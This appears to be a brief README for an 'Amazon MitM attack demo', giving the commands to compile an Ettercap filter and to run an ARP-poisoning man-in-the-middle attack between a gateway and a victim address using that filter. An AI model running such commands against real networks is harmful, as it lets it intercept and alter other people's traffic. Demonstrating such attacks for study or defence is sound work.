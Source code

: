 Amazon MitM attack demo
=======================

### Compiling an Ettercap filter
```bash
etterfilter <input-filter-file> -o <output-file>
```

### Running an Ettercap MitM attack with a filter
```bash
ettercap -Tq -F <filter-file> -M ARP:remote /<gateway-ip>/ /<victim-ip>/
```

